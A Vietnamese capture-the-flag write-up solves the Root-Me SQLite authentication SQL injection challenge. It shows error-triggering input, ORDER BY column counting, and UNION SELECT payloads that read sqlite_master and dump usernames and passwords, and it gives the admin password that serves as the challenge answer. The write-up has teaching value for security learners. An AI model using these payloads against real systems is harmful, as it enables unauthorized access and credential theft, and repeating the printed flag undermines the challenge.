







# Root-Me Write-up: SQL Injection - Authentication (SQLite)

### Thông tin Challenge
- **Platform**: Root-Me  
- **Challenge**: SQL Injection - Authentication  
- **Database**: SQLite  
- **Mục tiêu**: Bypass xác thực để lấy password của tài khoản admin.

---

### Khai thác ban đầu

**Test payload đầu tiên**:
```
'
```
→ Nhận lỗi:
> Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'''" ...



**Bypass lỗi**: Thêm comment `--`  
→ Lỗi biến mất, xác nhận có thể khai thác SQLi.



---

### Xác định số cột

Sử dụng `ORDER BY` để tìm số cột của bảng:

- `ORDER BY 1`, `ORDER BY 2` → OK  
- `ORDER BY 3` → Lỗi
  


**Kết luận**: Bảng đang query có **2 cột**.

---

### Khám phá Database (SQLite)

Payload lấy danh sách bảng:

```sql
' UNION SELECT name, null FROM sqlite_master;--
```

→ Phát hiện bảng **`users`**.



Lấy cấu trúc bảng:

```sql
' UNION SELECT sql, NULL FROM sqlite_master 
WHERE type='table' AND name='users';--
```

Kết quả:
```sql
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```



---

### Dump dữ liệu

**Lấy thông tin username**:

```sql
' UNION SELECT username, password FROM users;--
```



Kết quả:
- Username: `admin`

**Lọc chính xác theo admin**:

```sql
' UNION SELECT username, password FROM users WHERE username='admin';--
```



→ Password đúng: **`t0_W34k!$`**

---

### Kết quả

- **Username**: `admin`
- **Password**: `t0_W34k!$`

Đăng nhập thành công với thông tin trên.

---

### Kỹ thuật đã sử dụng

- Error-based SQL Injection
- UNION-based SQL Injection
- Information Schema qua `sqlite_master`
- Comment `--` để bypass
- Xác định số cột bằng `ORDER BY`
- WHERE clause để lọc dữ liệu chính xác

---

### Các lab liên quan

- SQL injection - String
- SQL injection - Numeric
- SQL injection - Authentication - GBK
- SQL injection - Error
- SQL injection - Blind
- SQL injection - Filter bypass
